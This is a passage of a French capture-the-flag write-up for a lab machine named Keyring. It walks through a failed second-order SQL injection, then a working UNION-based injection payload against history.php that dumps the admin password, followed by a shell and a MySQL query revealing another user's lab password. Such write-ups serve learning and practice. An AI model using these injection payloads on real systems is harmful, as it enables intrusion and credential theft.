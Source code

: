 Cette fois, on a une vraie vulnérabilité, une second-order injection !

À la création, notre nom d'utilisateur sera enregistré proprement, mais ces scripts l'extraient pour l'utiliser de la mauvaise façon, permettant une injection.

Mon idée est alors d'injecter des données dans la requête pour obtenir quelque chose comme ça :

```sql
INSERT INTO log (name, page_visited, date_time) VALUES ('yolo', (SELECT password FROM details WHERE name='admin'), 0); -- ','home','$date')";
```

Et ainsi, quand j'accèderai à `history.php` (qui dump la table `log`), je retrouverais le mot de passe de `admin`. Ouais, ça va être bien.

Malheureusement l'exploitation a échoué. C'est ce que je craignais : le nom d'utilisateur est limité dans la taille. J'ai effectué des tests simples en répétant le même caractère et j'ai compris que la limite était de 20 caractères.

### Il a été bénit par la grâce

J'ai finalement eu la révélation que `history.php` était lui-même vulnérable à une injection SQL. Son code n'est pas présent sur Github mais un test simple permettait de s'en assurer.

J'ai pu dumper facilement le mot de passe en passant cette valeur pour `user` :

```
' union select password from details where name='admin' #
```

Et j'ai ainsi obtenu :

```
Pages visited by user ' union select password from details where name='admin' #

myadmin#p4szw0r4d
```

A l'aide de ce mot de passe, on peut se connecter en admin à l'application web, et donc accéder à l'exécution de commande.

Une fois un shell obtenu, je trouve un autre utilisateur dans la table SQL :

```sql
mysql> select password from details where name="john";
+-----------------------+
| password              |
+-----------------------+
| Sup3r$S3cr3t$PasSW0RD |
+-----------------------+
1 row in set (0.28 sec)
```

J'aurais pu gagner du temps en dumpant toute la base plus tôt.

Cet utilisateur a un binaire setuid dans son dossier personnel :

```console
john@keyring:~$ ls -al
total 48
drwxr-x--- 3 john john  4096 Jun 30 19:34 .
drwxr-xr-x 3 root root  4096 Jun  7  2021 ..
lrwxrwxrwx 1 john john     9 Jun 20  2021 .bash_history -> /dev/null
-rw-r--r-- 1 john john   220 Jun  7  2021 .bash_logout
-rw-r--r-- 1 john john  3771 Jun  7  2021 .bashrc
-rwsr-xr-x 1 root root 16784 Jun 20  2021 compress
drwx------ 3 john john  4096 Jun 30 19:34 .gnupg
-rw-r--r-- 1 john john   807 Jun  7  2021 .profile
-rw-rw-r-- 1 john john   192 Jun 20  2021 user.txt
john@keyring:~$ cat user.txt

[ Keyring - User Owned ]
```